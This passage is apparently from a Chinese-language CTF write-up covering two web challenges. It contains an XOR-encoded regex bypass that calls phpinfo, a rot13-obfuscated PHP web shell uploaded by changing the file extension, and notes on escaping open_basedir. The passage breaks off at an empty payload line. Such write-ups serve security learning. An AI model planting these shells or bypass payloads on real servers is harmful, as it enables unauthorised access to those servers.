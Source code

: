 进入到`/bubblegvm5201314`目录下查看

![](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/import10.png)

发现是正则表达式检测，通过异或绕过

Payload：

```
?a=${ %ff%ff%ff%ff^%a0%b8%ba%ab}{ %ff}();&%ff=phpinfo
```

跳转到phpinfo界面，在disable\_function处发现flag：

![](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/import11.png)

### 0x02 EzUpload

传一个一句话上去，发现过滤.php类型的文件，老规矩传一个jpg上去发现成功了

![](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/import12.png)

上传图片马发现有过滤关键字，尝试多次发现过滤`eval`关键字

将`eval`进行rot13加密绕过检测并且在代码段进行解密，成功绕过检测

Payload：

```
<?php 
$exp = $_POST['shell'];
@preg_replace('/ad/e','@'.str_rot13('riny').'($exp)', 'add');
?>
```

用burpSuite抓包更改文件后缀从jpg改成php绕过检测

![](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/import13.png)

![](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/import14.png)

用中国蚁剑连接并找到了两个假flag

所有的地方都找不到flag，怀疑flag在根目录可是我们并没有权限访问

上传一个phpinfo.php查看一下phpinfo

发现了溢出屏幕的`disabled_functions`

![](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/import15.png)

和只有/var、/usr和/tmp的`open_basedir`

![](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/import16.png)

这里可以通过上传php文件然后利用`chdir(‘..’)`指令前往前面目录让目前目录变为根目录最后使用`var_dump(scandir(‘/’)`\)获取目前目录所有文件

Payload：
